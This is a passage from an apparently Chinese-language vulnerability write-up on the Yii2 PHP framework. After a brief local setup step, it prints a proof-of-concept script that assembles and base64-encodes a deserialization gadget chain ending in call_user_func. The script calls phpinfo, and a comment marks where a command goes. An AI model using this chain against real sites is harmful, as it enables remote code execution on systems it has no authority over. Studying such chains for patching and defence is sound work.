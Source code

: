 然后访问localhost:8080

![image-20210803131344576](images/3.png)

站点创建成功

# 第一条链子

## **漏洞分析**

poc.php

```
<?php
namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'phpinfo';
            $this->id = '1';           //command
            // run() -> call_user_func($this->checkAccess, $this->id);
        }
    }
}

namespace Faker{
    use yii\rest\IndexAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters['close'] = [new IndexAction, 'run'];
            //reset方法里又调用了close()方法:$this->_dataReader->close();
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
?>
```
